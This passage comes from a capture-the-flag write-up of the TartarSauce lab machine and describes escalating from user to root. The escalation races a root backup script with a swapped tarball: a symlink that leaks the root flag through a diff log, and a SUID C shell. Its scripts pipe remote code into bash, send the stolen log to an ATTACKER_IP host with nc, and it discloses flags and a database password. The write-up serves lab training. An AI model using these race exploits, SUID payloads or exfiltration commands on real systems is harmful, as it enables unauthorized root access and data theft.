cat user.txt
4f5ffe8fd1fa8283c9284db34721d14f
onuma@TartarSauce:~$
```

`sudo -l` as onuma needs a password, so local enum continues with `linenum.sh`:

```bash
onuma@TartarSauce:~$ curl http://ATTACKER_IP:80/linenum.sh | bash

...

[-] Systemd timers:
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Sun 2026-02-08 16:03:28 EST  3min 19s left Sun 2026-02-08 15:58:28 EST  1min 40s ago backuperer.timer             backuperer.service
Sun 2026-02-08 16:08:28 EST  8min left     n/a                          n/a          systemd-tmpfiles-clean.timer systemd-tmpfiles-clea
n.service
Sun 2026-02-08 19:33:56 EST  3h 33min left Sun 2026-02-08 15:53:32 EST  6min ago     apt-daily.timer              apt-daily.service
Mon 2026-02-09 06:40:48 EST  14h left      Sun 2026-02-08 15:53:32 EST  6min ago     apt-daily-upgrade.timer      apt-daily-upgrade.ser
vice

4 timers listed.
Enable thorough tests to see inactive timers
```

A `backuperer.timer` fires about every five minutes.

Stage result: shell as `onuma`; user flag `4f5ffe8fd1fa8283c9284db34721d14f`.

---

## Stage 5: backuperer archive swap → root flag

```bash
onuma@TartarSauce:/etc/systemd/system$ systemctl status backuperer
* backuperer.service - Backuperer
   Loaded: loaded (/lib/systemd/system/backuperer.service; static; vendor preset
   Active: inactive (dead) since Sun 2026-02-08 16:04:34 EST; 40s ago
  Process: 2276 ExecStart=/usr/sbin/backuperer (code=exited, status=0/SUCCESS)
 Main PID: 2276 (code=exited, status=0/SUCCESS)
lines 1-5/5 (END)
lines 1-5/5 (END):q
onuma@TartarSauce:/etc/systemd/system$ onuma@TartarSauce:/etc/systemd/system$ cat /lib/systemd/system/backuperer.service
[Unit]
Description=Backuperer

[Service]
ExecStart=/usr/sbin/backuperer
onuma@TartarSauce:/etc/systemd/system$ cat /usr/sbin/backuperer
...moved...
onuma@TartarSauce:/etc/systemd/system$ ls -l /usr/sbin/backuperer
-rwxr-xr-x 1 root root 1701 Feb 21  2018 /usr/sbin/backuperer
onuma@TartarSauce:/etc/systemd/system$ s[
```

`/usr/sbin/backuperer`:

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

The 30-second sleep after creating `$tmpfile` is the race window. Build a malicious tarball whose extract tree includes a symlink into `/root`, wait for the random `/var/tmp/.*` archive, overwrite it, then read the integrity-error log where `diff` dumps the root flag:

```bash
#!/bin/bash

# call with: curl http://ATTACKER_IP:80/backuperer-exploit/exploit.sh | bash
cd /dev/shm

# prep malicious tar
mkdir -p evil/var/www/html
# ln -s /root/root.txt evil/var/www/html/root.txt
ln -s /root/root.txt evil/var/www/html/robots.txt
tar zcvf /dev/shm/evil.tar.gz -C evil .

# wait for backup to appear, then swap
while true; do
    f=$(find /var/tmp -maxdepth 1 -name ".*" -type f 2>/dev/null)
    if [ -n "$f" ]; then
        cp /dev/shm/evil.tar.gz "$f"
        echo "[+] Swapped $f"
        break
    fi
    sleep 1
done

# wait for integrity check
sleep 35

cat /var/backups/onuma_backup_error.txt 
cat /var/backups/onuma_backup_error.txt | nc ATTACKER_IP 4443
```

```bash
------------------------------------------------------------------------
/var/tmp/.82155913218291a33fc26c8c4b7665ebad5223b4
Only in /var/www/html: index.html
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
<
---
> 72a1391cc928341e52d421c3fcf0f7dd
Only in /var/www/html: webservices
┌─[julien@parrot]─[~/.hacklas/targets/track-oscp/TartarSauce/exploit/backuperer-exploit]
└──╼ $
```

Root flag: `72a1391cc928341e52d421c3fcf0f7dd`.

Stage result: root flag via the integrity-check `diff` leak.

---

## Stage 6: Side quest — SUID shell via the same race

The extract step runs as root into `/var/tmp/check`. If the swapped archive contains a root-owned SUID binary, that binary can be executed for a root shell:

```bash
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
   ...
fi
```

```c
#include <unistd.h>
#include <stdlib.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
```

Build the SUID payload and pack it:

```bash
#!/bin/bash

# Run as root!

# gcc shell.c -o shell -static
gcc shell.c -o shell -static -m32 # for 32 bit
chmod 4755 shell  # suid + executable

# build evil.tar.gz
mkdir -p evil/var/www/html
cp shell evil/var/www/html/shell
chmod 4755 evil/var/www/html/shell
tar zcvf evil.tar.gz -C evil .

# SECURITY!! 
rm shell 
rm -rf evil
```

```bash
#!/bin/bash

# call with: curl http://ATTACKER_IP:80/backuperer-exploit-shell/exploit.sh | bash
cd /tmp

# assuming http server is running from previous exploit
curl http://ATTACKER_IP:80/backuperer-exploit-shell/evil.tar.gz -o /tmp/evil.tar.gz

echo "Waiting for cron..."

# wait for backup to appear, then swap
while true; do
    f=$(find /var/tmp -maxdepth 1 -name ".*" -type f 2>/dev/null)
    if [ -n "$f" ]; then
        cp /tmp/evil.tar.gz "$f"
        echo "[+] Swapped $f"
        break
    fi
    sleep 1
done

# try to execute suid shell
while true; do
    if [ -d "/var/tmp/check" ]; then
        # this part is a bit glitchy
        # If you get a shell that's not root, can try to run this step again
        sleep 2
        exec /var/tmp/check/var/www/html/shell
        break
    fi
    sleep 1
done
```



Stage result: root shell (and confirmation of the root flag).

---

## Credentials

**Monstra admin (`/webservices/monstra-3.0.4/admin/`)** — `admin:admin`
RCE path is a dead end (HTTP 500).

**`/var/www/html/config.php`** — `wpuser` / `w0rdpr3$$d@t@b@$3@cc3$$` (DB `wp`)
Not usable as `www-data` without the password on the mysql client.

---

## Key lessons

- **Broad enum beats the shiny CMS.** Monstra looked like the foothold; gobuster under `/webservices/` found WordPress, which is where the box actually starts.
- **WordPress needs aggressive plugin enum.** Passive `wpscan` missed `gwolle-gb`; aggressive mode and `searchsploit` found **CVE-2015-8351** RFI.
- **No SSH means no password hunt for login.** After `www-data`, looking for an `onuma` password to SSH was wasted effort — port 22 is closed; `sudo -u onuma tar …` is the intended pivot.
- **Race the backup window.** `backuperer`'s 30s sleep between `tar -zcvf` and `tar -zxvf`/`diff` is enough to swap in a symlink archive and leak `/root/root.txt` through the error log — or to drop a SUID binary for a shell.
- **Script working exploits.** Once RFI or the backup swap works, package it so a revoked HTB completion (or a re-run) does not burn the same setup time.

### What went right

- Widening recon past Monstra and treating broken WP absolute links as a vhost clue.

---

## Tools & cheat sheet

- [`nmap`](/hacklas/enumeration/port-scan/nmap.md) / [`rustscan`](/hacklas/enumeration/port-scan/rustscan.md) — Port / service discovery
- **`gobuster`** — Find `/webservices/wp/`
- [`wpscan`](/hacklas/enumeration/wordpress/wpscan.md) — Aggressive plugin discovery (`gwolle-gb`)
- [`searchsploit`](/hacklas/enumeration/vulnerability-scanning/searchsploit.md) — Gwolle RFI advisory / PoC
- [Gwolle RFI + `wp-load.php`](/hacklas/infiltration/web/file-traversal-lfi-rfi.md) — Unauth RCE as `www-data`
- [`sudo tar` (GTFOBins)](/hacklas/escalation/linux/sudo.md) — Escalate `www-data` → `onuma`
- **`linenum.sh`** — Spot `backuperer.timer`
- **Archive-swap exploit** — Race `backuperer` → root flag / SUID shell
